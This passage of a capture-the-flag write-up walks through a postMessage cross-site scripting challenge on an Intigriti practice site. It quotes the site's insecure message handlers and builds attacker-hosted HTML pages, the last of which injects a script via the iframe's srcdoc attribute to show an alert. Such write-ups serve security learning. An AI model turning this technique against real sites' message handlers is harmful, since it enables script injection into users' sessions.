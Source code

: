 ```
function buttonClick() {
        if (document.querySelector('#question').value){
          document.querySelector('#ball').contentWindow.postMessage({
            question: document.querySelector('#question').value
          }, '*');
        }
      }

      addEventListener('message', e => {
        switch(e.data.action){
          case 'set':
            [...document.querySelectorAll(e.data.element)].forEach(s => s.setAttribute(e.data.attr, e.data.value));
            break;
          case 'delete':
            [...document.querySelectorAll(e.data.element)].forEach(s => s.removeAttribute(e.data.attr, e.data.value));
            break;
          case 'get':
            [...document.querySelectorAll(e.data.element)].forEach(s => s.getAttribute(e.data.attr, e.data.value));
            break;
          case 'count':
            [...document.querySelectorAll(e.data.element)].length;
            break;
          case 'result':
            document.querySelector('#answer').innerHTML = e.data.value.replace(/<|>/g,'');
            break;
          default:
            console.log(e.data);
        }
      });
```
+ When we ask a question, it sends a postMessage to the ball iframe, then that iframe will send back some message. Looking at the source code of that iframe,
```

      function rand(){
        return ~~(Math.random() * 30) - 15;
      }
      function shake(resp){
        let c = 10;
        let stop = setInterval(_ => {
          c--;
          if (c){
            top.postMessage({
              action: 'set',
              element: '#ball',
              attr: 'style',
              value: 'left: ' + rand() + 'px; top: ' + rand() + 'px;'
            }, '*');
          } else {
            top.postMessage({
              action: 'result',
              value: resp.answer
            }, '*');
            clearInterval(stop);
          }
        }, 50);
      }
      addEventListener('message', e => {
        if ('question' in Object(e.data)){
          fetch('https://challenge-0922.intigriti.io/challenge/api.php?question=' + encodeURIComponent(e.data.question))
            .then(e => e.text())
            .then(e => {
              let resp;
              try{
                resp = JSON.parse(e);
              } catch (_) {
                resp = eval(e);
              }
              shake(resp);
          });
        }
      });
```
+ Looking at the documentation of postMessage, we can see that the arguements of the postmessage is message and targetOrigin. In the above code, we can see that the target origin is given as "*" astericks. Which means that they dont really checks when the question is coming from. Putting astericks means it doesnt have a preference of from where the message comes from.
+ The origin is not checked when we receive this message, so the origin can come from anywhere. So, we can host a page and send these messages.
+ So, lets host an html page as follows:
```
<!DOCTYPE html>
<iframe id="challenge" src="https://challenge-0922.intigriti.io/challenge/index.php" onload="sendMessage()"></iframe>
<script>
    function sendMessage(nounce){
        let challenge=document.getElementById('challenge');
        challenge.contentWindow.postMessage({
            action:'result',
            value: 'testresult'
        },'*');
    }
</script>
```
+ but didnt work as expected because of the following code:
```

      fetch('https://cdnjs.cloudflare.com/ajax/libs/bootstrap/5.2.0/css/bootstrap.min.css')
        .then(e=>e.text())
        .then(e=>{
          let url = URL.createObjectURL(new Blob([e], {type : 'text/css'}));
          let el = this.document.createElement('link');
          el.setAttribute('rel', 'stylesheet');
          el.setAttribute('type', 'text/css');
          el.setAttribute('href', url);
          document.querySelector('head').appendChild(el);
        });

      window.addEventListener('message', e => {
        if (e.source !== document.querySelector('#ball').contentWindow){
          e.stopImmediatePropagation();
        }
      });

```
+ The above code sets another listener for our message, it checks if the source is not our ball iframe, so, the second event listener in our above case wont get it.
+ As of now, we only tried the result part of the event listener. Looking at the set case,it takes an element and set it with an attribute, to try out using set, we can chenge the code of our page as follows:
```
<!DOCTYPE html>
<iframe id="challenge" src="https://challenge-0922.intigriti.io/challenge/index.php" onload="sendMessage()"></iframe>
<script>
    function sendMessage(nounce){
        let challenge=document.getElementById('challenge');
        challenge.contentWindow.postMessage({
            action:'set',
            element: '#ball',
            attr: 'srcdoc',
            value: '<script>alert(document.domain)<\/script>'
        },'*');
    }
</script>
```
+ When we reload the script, we can see that the webpage is not a ball anymore,

